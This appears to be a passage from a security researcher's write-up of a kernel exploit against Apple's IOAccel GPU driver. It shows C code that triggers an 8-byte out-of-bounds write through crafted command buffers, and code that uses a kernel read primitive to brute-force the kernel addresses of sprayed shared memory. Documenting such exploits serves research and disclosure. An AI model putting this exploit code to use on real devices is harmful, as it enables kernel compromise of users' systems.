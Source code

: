 ```cpp
    // put command 2 after command 1, so now timestamp written in cmd1->command.size + off_timestamp (8) = 0x4000 <= 8 bytes written OOB!
    struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
    cmd2->command.type = 2;
    cmd2->command.size = 8;
    
    return IOAccelCommandQueue2_submit_command_buffers(&submit_args.header, sizeof(submit_args));
}

...

    struct IOAccelDeviceShmemData cmdbuf, seglist;
    uint64_t command_buffer_shmem_sig = 0x4142434445464748;
      uint64_t segment_list_shmem_sig = 0x5152535455565758;
    ret = alloc_shmem_with_sig(96 MB, &cmdbuf, &seglist, command_buffer_shmem_sig, segment_list_shmem_sig);

    if (ret) {
        ERROR("Failed to allocate shared memory\n");
        goto err;
    }
```

I went through some trial-and-error to determine kernel addresses of shared memory regions using signatures.

You can see attempts in helper/find_shmem.c in functions find_shmem_in_kernel_[1, 2, 3, 4].

After coming up with four ideas, I succeeded with 4th method (it takes roughly 10 seconds to run). The approaches were:

1. Walk from `gIOKitPageableSpace_start` to `gIOKitPageableSpace_end`, adding +0x1000 each step and reading memory to check for our signature.
2. Iterate `vm_map` structures that belong to `gIOKitPageableSpace` by following each map’s `next` field, and check `map->start + 0x1000` for our signature.
3. Translate user-level shared memory address to physical address, then translate that physical address into kernel virtual address and check it.
4. Start from approximate base derived by adding offsets to 82MB `dict_entry` address (the region allocated earlier via IOSurface), then scan every +0x1000 from that base and check for our signature.

Methods 1 and 2 worked easily for small allocations (e.g., 0x4000), but **they failed to find much larger 96MB allocations**.

Method 3 showed that both kernel and user addresses map to same physical address, **but translated kernel virtual address didn't fall inside kernel map range.**

**So ultimately I used method 4 — starting from 82MB dict_entry address and scanning forward by +0x1000 until signature was found.**

```cpp
// Solution 4
// Bruteforcing...... sigh
void find_shmem_in_kernel_4(uint64_t *kva1, uint64_t *kva2, uint64_t command_buffer_shmem_sig, uint64_t segment_list_shmem_sig, uint64_t iosurface_sprayed_osdict_entry) {
    uint64_t command_buffer_shmem_data_kva = 0;
    uint64_t segment_list_shmem_data_kva = 0;

    uint64_t kernel_alloc_start_maybe = 0;
    uint64_t kernel_map = kread64(ksym(KSYMBOL_kernel_map));

    if(iosurface_sprayed_osdict_entry) {
        kernel_alloc_start_maybe = (iosurface_sprayed_osdict_entry & 0xffffffffff000000) + 0x1000000;
    }
    else {
        uint64_t kernel_map_start = kread64(kernel_map+0x20);	//0x20 = start
```